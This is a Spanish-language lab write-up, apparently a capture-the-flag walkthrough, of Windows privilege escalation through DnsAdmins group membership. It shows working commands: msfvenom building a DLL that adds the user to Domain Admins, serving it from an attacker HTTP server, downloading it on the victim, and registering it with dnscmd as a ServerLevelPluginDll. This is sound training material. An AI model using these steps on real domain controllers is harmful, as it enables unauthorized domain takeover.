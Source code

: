 ```bash
xfreerdp /v:10.129.43.42 /u:netadm
```


<img width="1534" height="988" alt="image" src="https://github.com/user-attachments/assets/fca709e9-6252-439a-a693-b48e07394953" />

Como era de esperar, no tenemos permisos de acceso al mismo.


Abrimos una `powershell` e intentamos abrir el archivo especificado:
<img width="963" height="235" alt="image" src="https://github.com/user-attachments/assets/b348dd18-e9f7-4435-a0e0-26d1cb99f960" />



Verificamos si pertenecemos al grupo `DnsAdmins`:
```powershell
Get-ADGroupMember -Identity DnsAdmins
```

<img width="1015" height="217" alt="image" src="https://github.com/user-attachments/assets/0b3612d7-2dc2-43c2-abce-5716edca3412" />

Al pertenecer al grupo `DnsAdmins` podemos usar las herramientas de administración `DNS` para configurar la clave `ServerLevelPluginDll` en el registro. Si la `DLL` apuntada es maliciosa y el servicio `DNS` (que corre como SYSTEM) la carga —por ejemplo tras reiniciar el servicio— su código se ejecutará con privilegios `SYSTEM`, lo que puede permitir la elevación de privilegios (especialmente grave si DNS corre en un Domain Controller).

Creamos la dll maliciosa en nuestro host utilizando `msfvenom`:
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

<img width="1621" height="205" alt="image" src="https://github.com/user-attachments/assets/4d936853-02c6-4711-941d-c03ba9339cc9" />


Transferimos el dll a la máquina víctima mediante un servidor en python:

```bash
python3 -m http.server 7777
```


Descargamos el fichero desde la máquina víctima:
```powershell
wget "http://10.10.14.29:7777/adduser.dll" -outfile "adduser.dll"
```

<img width="854" height="404" alt="image" src="https://github.com/user-attachments/assets/2eb72e74-6c6a-4832-a92e-cf34e987a612" />
<img width="1192" height="138" alt="image" src="https://github.com/user-attachments/assets/06c7473e-eb4f-4c5b-a079-b7e29be8c4f9" />


Cargamos la dll en el registro con el siguiente comando:

```powershell
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\adduser.dll
```

<img width="846" height="142" alt="image" src="https://github.com/user-attachments/assets/69e13cc1-36f5-4389-aa67-34d67146b311" />
